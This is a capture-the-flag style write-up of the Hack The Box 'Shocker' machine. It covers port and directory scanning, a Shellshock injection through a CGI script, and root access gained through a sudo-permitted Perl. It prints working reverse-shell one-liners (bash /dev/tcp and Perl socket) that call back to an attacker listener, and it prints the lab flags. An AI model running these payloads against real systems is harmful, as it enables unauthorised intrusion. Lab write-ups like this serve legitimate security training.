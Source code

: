 ```yaml
---
layout: post
title: Shocker
tags: [OSCP, writeup, Linux, shellshock, perl, web, injection]
description: "Shocker write-up"
---
```


![Shocker logo](/assets/imgs/shocker/shocker.png)

### This is an easy linux box

## Tools used

------

- curl
- find
- nc
- nmap
- perl
- sudo

## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA shocker 10.10.10.56 -v -Pn

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Here’s what nmap teaches us :

- port 80 (HTTP) - Apache 2.4.18
- port 2222 (SSH) - OpenSSH 7.2p

Not a lot of ports open. Go check the website :

![Webpage](/assets/imgs/shocker/website.png)

There is nothing here, so let's search for files/directories. For that I used ffuf [https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf).

```python
➜  shocker ffuf -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -u http://10.10.10.56/FUZZ -e php,txt,html,/ -t 100

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56/FUZZ
 :: Wordlist         : FUZZ: /home/liodeus/directory-list-lowercase-2.3-medium.txt
 :: Extensions       : php txt html / 
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

cgi-bin/                [Status: 403, Size: 294, Words: 22, Lines: 12]
icons/                  [Status: 403, Size: 292, Words: 22, Lines: 12]
```

Common Gateway Interface (CGI) is an interface specification for web servers to execute programs like console applications running on a server ([https://en.wikipedia.org/wiki/Common_Gateway_Interface](https://en.wikipedia.org/wiki/Common_Gateway_Interface)).

The name of the box is a big hing "Shocker", knowing that there is a "cgi-bin" folder, there must be a script vulnerable to a shellshock.

When a web server uses the Common Gateway Interface (CGI) to handle a document request, it copies certain information from  the request into the environment variable list and then delegates the  request to a handler program. If the handler is a Bash script, or if it  executes one for example using the system call, Bash will receive the environment variables passed by the server  and will process them as described above. This provides a means for an  attacker to trigger the Shellshock vulnerability with a specially  crafted document request ([https://en.wikipedia.org/wiki/Shellshock_(software_bug)](https://en.wikipedia.org/wiki/Shellshock_(software_bug))).

Let's find out the script, still with fuff. For the extension, I used some common scripts extensions.

```python
ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u http://10.10.10.56/cgi-bin/FUZZ -e .php,.py,.pl,.sh -t 250 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56/cgi-bin/FUZZ
 :: Wordlist         : FUZZ: /home/liodeus/directory-list-lowercase-2.3-medium.txt
 :: Extensions       : .php .py .pl .sh 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 250
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

user.sh                 [Status: 200, Size: 118, Words: 18, Lines: 8]
```

There is a script called "user.sh", when called it returns the uptime of the server.

```bash
curl http://10.10.10.56/cgi-bin/user.sh   
Content-Type: text/plain

Just an uptime test script

04:48:11 up 15:15,  0 users,  load average: 0.05, 0.45, 0.39
```

## Exploit

------

```bash
nc -lvp 1234
```

Now execute the exploit.

[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/10.10.14.4/1234 0>&1" http://10.10.10.56/cgi-bin/user.sh
```

```bash
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.56: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.56] 46792
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
```

So we're not root, let's escale to root !

```bash
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```



```bash
nc -lvp 12345
```

[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```bash
sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.4";$p=12345;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```



```bash
nc -lvp 12345
listening on [any] 12345 ...
10.10.10.56: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.56] 60392
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

There we have a shell as root ! Go find the flags !
## Flags

------

### User.txt

```bash
shelly@Shocker:/usr/lib/cgi-bin$ find /home -name user.txt
find /home -name user.txt
/home/shelly/user.txt
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
cat /home/shelly/user.txt
2ec24e11320026d1e70ff3e16695b233
```

### Root.txt

```bash
# find / -name root.txt
/root/root.txt
# cat /root/root.txt
52c2715605d70c7619030560dc1ca467
```
